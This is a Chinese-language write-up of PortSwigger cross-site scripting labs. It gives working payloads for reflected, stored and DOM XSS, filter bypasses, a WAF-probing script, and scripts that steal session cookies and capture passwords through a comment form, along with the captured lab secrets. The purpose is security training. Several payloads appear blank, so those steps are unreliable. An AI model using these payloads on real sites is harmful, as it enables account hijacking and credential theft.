

## Lab: Reflected XSS into HTML context with nothing encoded

基礎題，無難度

```html
?search=
<script>
  alert(1);
</script>
```

## Lab: Stored XSS into HTML context with nothing encoded

基礎題，無難度

```html
<script>
  alert(1);
</script>
```

## Lab: DOM XSS in `document.write` sink using source `location.search`

從來沒用過 [document.write](https://developer.mozilla.org/en-US/docs/Web/API/Document/write)，原來是已經棄用的方法，但可能有機會在老網站看到吧

先觀察網站的 js

```js
function trackSearch(query) {
  document.write(
    '',
  );
}
var query = new URLSearchParams(window.location.search).get("search");
if (query) {
  trackSearch(query);
}
```

payload

```html
"/>
<script>
  alert(1);
</script>
```

注入後會變成

```html

<script>
  alert(1);
</script>
'">
```

## Lab: DOM XSS in `innerHTML` sink using source `location.search`

先觀察網站的 js 有以下程式碼

```js
function doSearchQuery(query) {
  document.getElementById("searchMessage").innerHTML = query;
}
var query = new URLSearchParams(window.location.search).get("search");
if (query) {
  doSearchQuery(query);
}
```

插入 `<script>alert(1)</script>` 失敗，不知道是不是瀏覽器的安全機制阻擋

查了一下 [MDN innerHTML](https://developer.mozilla.org/en-US/docs/Web/API/Element/innerHTML#security_considerations)

```
While the property does prevent `<script>` elements from executing when they are injected
```

調整為 `` 成功

還不錯，有學到新東西，原來用 `innerHTML` 插入 `<script>` 不會執行程式碼

## Lab: DOM XSS in jQuery anchor `href` attribute sink using `location.search` source

基礎題，無難度

```
?returnPath=javascript:alert(document.cookie)
```

## Lab: DOM XSS in jQuery selector sink using a hashchange event

先觀察網站的 js

```js
$(window).on("hashchange", function () {
  var post = $(
    "section.blog-list h2:contains(" +
      decodeURIComponent(window.location.hash.slice(1)) +
      ")",
  );
  if (post) post.get(0).scrollIntoView();
});
```

老實說我沒深入研究 jQuery 有哪些 method 可以觸發 XSS，但 jQuery 底層基本上也是調用 DOM API

我們先確認這段程式碼的正常邏輯，如果網址 hash 包含文章標題，就會自動 `scrollIntoView`

```
#Spider Web Security
```

先嘗試注入點在哪裡，推測是 jQuery 的 `$`，發現這樣可以成功注入

```js
$("");
```

進階一點，想一下要怎麼把

```js
$(
  "section.blog-list h2:contains(" +
    decodeURIComponent(window.location.hash.slice(1)) +
    ")",
);
```

變成可注入程式碼的 expression

```js
encodeURIComponent("")
#%3Cimg%20src%3D'x'%20onerror%3D'print()'%3E
```

之後構造一個假的 Server

```html
<iframe
  src="https://0a51004f0349d85a80bf035d003e002e.web-security-academy.net/#"
  onload="this.src+=''"
></iframe>
```

## Lab: Reflected XSS into attribute with angle brackets HTML-encoded

後來發現注入點在 `<input value="">` 這邊

```
123" autofocus onfocus="alert(0)" data-type="456
```

會變成

```html
<input value="123" autofocus onfocus="alert(0)" data-type="456" />
```

這次是透過 AI 學到 `autofocus onfocus="alert(0)"` 這個新的方法，主要是因為這個組合比較少用XD



## Lab: Stored XSS into anchor href attribute with double quotes HTML-encoded

在 website 欄位注入 `javascript:alert(1)`，就會變成

```html
<a href="javascript:alert(1)"></a>
```

## Lab: Reflected XSS into a JavaScript string with angle brackets HTML encoded

先觀察網站的 js

```js
var searchTerms = "123";
document.write(
  '',
);
```

題目有給 hint，是要想辦法跳出 js string，payload 如下

```js
';alert(1);var a = '3
```

注入後會變成

```js
var searchTerms = "";
alert(1);
var a = "3";
```

## Lab: DOM XSS in `document.write` sink using source `location.search` inside a select element

先觀察網站的 js

```js
var stores = ["London", "Paris", "Milan"];
var store = new URLSearchParams(window.location.search).get("storeId");
document.write('<select name="storeId">');
if (store) {
  document.write("<option selected>" + store + "</option>");
}
for (var i = 0; i < stores.length; i++) {
  if (stores[i] === store) {
    continue;
  }
  document.write("<option>" + stores[i] + "</option>");
}
document.write("</select>");
```

payload

```
encodeURIComponent(`"></select>`)

?productId=2&storeId=%22%3E%3C%2Fselect%3E%3Cimg%20src%3D'x'%20onerror%3D'alert(1)'%3E
```

## Lab: DOM XSS in AngularJS expression with angle brackets and double quotes HTML-encoded

AngularJS 也是我不熟悉的領域 QQ，但我忘記以前在哪裡看過可以注入，成功～

```js
{
  {
    constructor.constructor('alert("XSS")')();
  }
}
```

## Lab: Reflected DOM XSS

先觀察網站的 js，主要的注入點應該是 `eval`

```js
var xhr = new XMLHttpRequest();
xhr.onreadystatechange = function () {
  if (this.readyState == 4 && this.status == 200) {
    eval("var searchResultsObj = " + this.responseText);
    displaySearchResults(searchResultsObj);
  }
};
xhr.open("GET", path + window.location.search);
xhr.send();
```

試著輸入 `"`，API 回傳的是 `{"results":[],"searchTerm":"\""}`，最終嘗試

```
\"};alert(1);//
```

讓整段變成

```js
{"results":[],"searchTerm":"\\"};alert(1);// "}
```

## Lab: Stored DOM XSS

這題算蠻簡單的，嘗試三次就猜出邏輯，連 js 的邏輯都沒看

```html
</p>
```

## Lab: Reflected XSS into HTML context with most tags and attributes blocked

test payloads

```html
<div>123</div>
=> Tag is not allowed
<div>=> Tag is not allowed</div>
```

突破口，可以關閉標籤，接下來要尋找怎麼開啟新的標籤

```html
</h1>
```

嘗試 `Tag is not allowed` 的邏輯，推測應該是有黑名單機制

```html
<di => bypass
<di> => bypass
<di></di> => bypass
</script> => bypass
alert(1)</script> => bypass
<SCRIPT> => Tag is not allowed
<di><script>alert(1)</di> => Tag is not allowed
<div> => Tag is not allowed
```

偶然發現 `Attribute is not allowed`

```html
<di onload="alert(1)"></di> => Attribute is not allowed
<di ONload="alert(1)"></di> => Attribute is not allowed
```

這題最後我實在找不到有啥 tag 跟 attribute 可以注入，於是參考了解答

我發現有 [Cross-site scripting (XSS) cheat sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet) 超讚的

其實如果把這邊列出的所有 tags 跟 attributes 都用腳本去測試的話就可以了，不過既然我們已經知道解法，重點只是要學習解題思路，所以最後的答案是

```html
<body onresize="print(1)"></body>
```

## Lab: Reflected XSS into HTML context with all tags blocked except custom ones

這題是有讓我學到新的概念，就是 custom tag 也可以觸發 `on` 事件，另外 [autofocus](https://developer.mozilla.org/en-US/docs/Web/HTML/Reference/Global_attributes/autofocus) 是可以在所有 tag 上的屬性

```html
<di onfocus="alert(document.cookie)" tabindex="0" autofocus></di>
```

有了這個觀念，就可以把上面這坨塞到 querystring

```js
encodeURIComponent(`<di onfocus="alert(document.cookie)" tabindex=0 autofocus></di>`)
https://0a7c009b044d931980202bbf0062009c.web-security-academy.net/?search=%3Cdi%20onfocus%3D%22alert(document.cookie)%22%20tabindex%3D0%20autofocus%3E%3C%2Fdi%3E
```

之後在 exploit-server 的 body 輸入

```html
<html>
  <meta
    http-equiv="refresh"
    content="0; url=https://0a7c009b044d931980202bbf0062009c.web-security-academy.net/?search=%3Cdi%20onfocus%3D%22alert(document.cookie)%22%20tabindex%3D0%20autofocus%3E%3C%2Fdi%3E"
  />
</html>
```

使用者點擊 exploit-server 的網址就會轉到 vulnerable 網址，這題不能用 `<iframe>` 是因為 vulnerable 網址有設定 [X-Frame-Options: SAMEORIGIN](../http/iframe-security.md)

## Lab: Reflected XSS with some SVG markup allowed

先用 [Cross-site scripting (XSS) cheat sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet) 查詢 `SVG` 支援的 onEvent without user interaction

之後寫一個 js 測試哪些 onEvent 可以通過（被 WAF 擋下來會是 400 Bad Request）

```js
const onEvents = [
  "onafterscriptexecute",
  "onanimationcancel",
  "onanimationend",
  "onanimationiteration",
  "onanimationstart",
  "onbeforeprint",
  "onbeforescriptexecute",
  "onbeforeunload",
  "onbegin",
  "oncanplay",
  "oncanplaythrough",
  "oncontentvisibilityautostatechange",
  "oncontentvisibilityautostatechange(hidden)",
  "oncuechange",
  "ondurationchange",
  "onend",
  "onended",
  "onerror",
  "onfocus",
  "onfocus(autofocus)",
  "onfocusin",
  "onhashchange",
  "onload",
  "onloadeddata",
  "onloadedmetadata",
  "onloadstart",
  "onmessage",
  "onpagereveal",
  "onpageshow",
  "onplay",
  "onplaying",
  "onpopstate",
  "onprogress",
  "onrepeat",
  "onresize",
  "onscroll",
  "onscrollend",
  "onscrollsnapchange",
  "onscrollsnapchanging",
  "onsecuritypolicyviolation",
  "onsuspend",
  "ontimeupdate",
  "ontoggle",
  "ontransitioncancel",
  "ontransitionend",
  "ontransitionrun",
  "ontransitionstart",
  "onunhandledrejection",
  "onunload",
  "onwaiting(loop)",
  "onwebkitanimationend",
  "onwebkitanimationiteration",
  "onwebkitanimationstart",
  "onwebkitplaybacktargetavailabilitychanged",
  "onwebkittransitionend",
];
for (const onEvent of onEvents) {
  fetch(
    `${location.origin}/?search=${encodeURIComponent(`<svg ${onEvent}="alert(1)">`)}`,
  ).then((res) => {
    if (res.status === 200) console.log(onEvent);
  });
}
```

最終結果是 `onbegin`，完全沒用過，查一下 [MDN](https://developer.mozilla.org/en-US/docs/Web/API/SVGAnimationElement/beginEvent_event)

這題我只是單純卡在對 SVG 可用的 Elements 跟 onBegin 不熟，後來直接請 AI 給我 `onbegin` 的範例，最終測出

```html
<svg>
  <animateTransform onbegin="alert(1)" attributeName="transform" dur="0.1s" />
</svg>
```

## Lab: Reflected XSS in canonical link tag

<!-- todo-yusheng -->

## Lab: Reflected XSS into a JavaScript string with single quote and backslash escaped

這題應該是 [Lab: Reflected XSS into a JavaScript string with angle brackets HTML encoded](#lab-reflected-xss-into-a-javascript-string-with-angle-brackets-html-encoded) 的進階版

先觀察網站的 js

```js
var searchTerms = "123";
document.write(
  '',
);
```

我後來發現其實 [terminating-the-existing-script](https://portswigger.net/web-security/cross-site-scripting/contexts#terminating-the-existing-script) 這個章節就有提供答案了，這題既然沒辦法用單引號跟反斜線的話，那就直接用 `</script>` 來提前關閉 tag

```html
</script>
```

## Lab: Reflected XSS into a JavaScript string with angle brackets and double quotes HTML-encoded and single quotes escaped

[breaking-out-of-a-javascript-string](https://portswigger.net/web-security/cross-site-scripting/contexts#breaking-out-of-a-javascript-string) 有給提示

payload

```
\';alert(1);//
```

會產生

```js
var searchTerms = "\\";
alert(1); //';
```

## Lab: Stored XSS into onclick event with angle brackets and double quotes HTML-encoded and single quotes and backslash escaped

[making-use-of-html-encoding](https://portswigger.net/web-security/cross-site-scripting/contexts#making-use-of-html-encoding) 有給提示

payload

```
https://&apos;-alert(document.domain)-&apos;
```

result

```html
<a
  id="author"
  href="https://'-alert(document.domain)-'"
  onclick="var tracker={track(){}};tracker.track('https://'-alert(document.domain)-'');"
  >2312312</a
>
```

## Lab: Reflected XSS into a template literal with angle brackets, single, double quotes, backslash and backticks Unicode-escaped

這題也是看了 [xss-in-javascript-template-literals](https://portswigger.net/web-security/cross-site-scripting/contexts#xss-in-javascript-template-literals) 就可以秒解的

payload

```js
${alert(document.domain)}
```

會產生以下

```js
var message = `0 search results for '${alert(document.domain)}'`;
```

## Lab: Exploiting cross-site scripting to steal cookies

這題本來是設計給有買 Burp Suite Professional 的人類，但 hint 有說到，也有方法不需要

我是參考 [這個影片](https://www.youtube.com/watch?v=N_87S9XVy0w) 的解法，概念我都懂，只是為啥我用 postId=2 這篇文章，就沒有受害者瀏覽呢？後來是跟著影片一起用 postId=5，就有成功看到受害者 Po 文

1. 發現 Comment 欄位完全沒有防護，可以直接插入 `<script>`
2. 構造以下 html，讓受害者瀏覽留言時，背後發送一個留言的 API

```html
<script>
  addEventListener("DOMContentLoaded", () => {
    const csrf = document.querySelector("input[name='csrf']").value;
    const cookie = document.cookie;
    fetch(
      "https://0abc008a03bfe38780a1042b00c3002a.web-security-academy.net/post/comment",
      {
        headers: {
          "content-type": "application/x-www-form-urlencoded",
        },
        referrer:
          "https://0abc008a03bfe38780a1042b00c3002a.web-security-academy.net/post?postId=2",
        body: `csrf=${csrf}&postId=5&comment=${cookie}&name=${new Date().getTime()}&email=789%40789&website=`,
        method: "POST",
        mode: "cors",
        credentials: "include",
      },
    );
  });
</script>
```

3. 看到受害者瀏覽留言後，會發送一個留言

```
secret=HEta6nCEhiztNlcHwjpE1PimJ3lpxmhJ;
session=RlrBG3zwpRjdyVblTWlne4ILI38vhc4m
```

4. 拿著這組 cookie 去訪問右上角的 `/my-account` 網址，成功解題～

```js
document.cookie = "session=RlrBG3zwpRjdyVblTWlne4ILI38vhc4m";
fetch(
  "https://0abc008a03bfe38780a1042b00c3002a.web-security-academy.net/my-account",
);
```

## Lab: Exploiting cross-site scripting to capture passwords

跟上一題的情況一樣，只是現在要改偷登入頁的帳密。這題原本的概念是，要把偷到的帳密送到自己架的 Server，但由於資安考量，PortSwigger 限制只能送到他們架的 Server（要花錢買 Burp Suite Professional），所以我們用比較危險的方式，把偷到的帳密透過留言系統顯示出來

1. 發現 Comment 欄位完全沒有防護，可以直接插入 `<script>`
2. 試試看用 `iframe` 載入登入頁，能不能拿到帳密

```html
<script>
  function onloadIframe() {
    const username = window.frames[0].document.querySelector(
      "input[name='username']",
    ).value;
    const password = window.frames[0].document.querySelector(
      "input[name='password']",
    ).value;
    console.log({ username, password });
  }
</script>
<iframe
  src="https://0a34009004a74700e417261e007f005f.web-security-academy.net/login"
  onload="onloadIframe()"
  style="display:none"
></iframe>
```

3. 把 `console.log` 改成發送留言，拿到的都是 `{"username":"","password":""}`

```html
<script>
  function onloadIframe() {
    const username = window.frames[0].document.querySelector(
      "input[name='username']",
    ).value;
    const password = window.frames[0].document.querySelector(
      "input[name='password']",
    ).value;
    const csrf = document.querySelector("input[name='csrf']").value;
    const cookie = document.cookie;
    fetch(
      "https://0a34009004a74700e417261e007f005f.web-security-academy.net/post/comment",
      {
        headers: {
          "content-type": "application/x-www-form-urlencoded",
        },
        body: `csrf=${csrf}&postId=5&comment=${JSON.stringify({ username, password })}&name=${new Date().toISOString()}&email=789%40789&website=`,
        method: "POST",
        mode: "cors",
        credentials: "include",
      },
    );
  }
</script>
<iframe
  src="https://0a34009004a74700e417261e007f005f.web-security-academy.net/login"
  onload="onloadIframe()"
  style="display:none"
></iframe>
```

4. 加個 `DOMContentLoaded` 試試看，拿到的還是 `{"username":"","password":""}`

```html
<script>
  function onloadIframe() {
    window.frames[0].addEventListener("DOMContentLoaded", () => {
      const username = window.frames[0].document.querySelector(
        "input[name='username']",
      ).value;
      const password = window.frames[0].document.querySelector(
        "input[name='password']",
      ).value;
      const csrf = document.querySelector("input[name='csrf']").value;
      const cookie = document.cookie;
      fetch(
        "https://0a34009004a74700e417261e007f005f.web-security-academy.net/post/comment",
        {
          headers: {
            "content-type": "application/x-www-form-urlencoded",
          },
          body: `csrf=${csrf}&postId=5&comment=${JSON.stringify({ username, password })}&name=${new Date().toISOString()}&email=789%40789&website=`,
          method: "POST",
          mode: "cors",
          credentials: "include",
        },
      );
    });
  }
</script>
<iframe
  src="https://0a34009004a74700e417261e007f005f.web-security-academy.net/login"
  onload="onloadIframe()"
  style="display:none"
></iframe>
```

5. 改成用 `window.open` 試試看，拿到的還是 `{"username":"","password":""}`

```html
<script>
  addEventListener("DOMContentLoaded", () => {
    const loginWindow = window.open(
      "https://0a34009004a74700e417261e007f005f.web-security-academy.net/login",
      "_blank",
    );
    loginWindow.addEventListener("DOMContentLoaded", () => {
      const username = loginWindow.document.querySelector(
        "input[name='username']",
      ).value;
      const password = loginWindow.document.querySelector(
        "input[name='password']",
      ).value;
      const csrf = document.querySelector("input[name='csrf']").value;
      const cookie = document.cookie;
      fetch(
        "https://0a34009004a74700e417261e007f005f.web-security-academy.net/post/comment",
        {
          headers: {
            "content-type": "application/x-www-form-urlencoded",
          },
          body: `csrf=${csrf}&postId=5&comment=${JSON.stringify({ username, password })}&name=${new Date().toISOString()}&email=789%40789&website=`,
          method: "POST",
          mode: "cors",
          credentials: "include",
        },
      );
    });
  });
</script>
```

6. 改成直接注入 `<input>`，成功拿到 `{"username":"administrator","password":"6g7n2wu1j8p490o2iss4"}`

```html
<script>
  function handlePasswordChange() {
    const username = document.querySelector("input[name='username']").value;
    const password = document.querySelector("input[name='password']").value;
    const csrf = document.querySelector("input[name='csrf']").value;
    const cookie = document.cookie;
    fetch(
      "https://0a34009004a74700e417261e007f005f.web-security-academy.net/post/comment",
      {
        headers: {
          "content-type": "application/x-www-form-urlencoded",
        },
        body: `csrf=${csrf}&postId=5&comment=${JSON.stringify({ username, password })}&name=${new Date().toISOString()}&email=789%40789&website=`,
        method: "POST",
        mode: "cors",
        credentials: "include",
      },
    );
  }
</script>
<input type="username" name="username" />
<input type="password" name="password" onchange="handlePasswordChange()" />
```

我覺得我好蠢，想了 `<iframe>` 跟 `window.open` 這兩招，卻沒有想到可以直接插入 `<input>`

但這題的解法，也讓我想要重新認識瀏覽器 autofill 的安全性機制

1. 透過 `<iframe>` 開啟的登入頁，會有 autofill 的功能嗎？
2. 透過 `window.open` 開啟的登入頁，會有 autofill 的功能嗎？

<!-- todo-yusheng -->

## Lab: Reflected XSS with AngularJS sandbox escape without strings

<!-- todo-yusheng -->

[教學](https://portswigger.net/web-security/cross-site-scripting/contexts/client-side-template-injection)

## 參考資料

- https://portswigger.net/web-security/cross-site-scripting
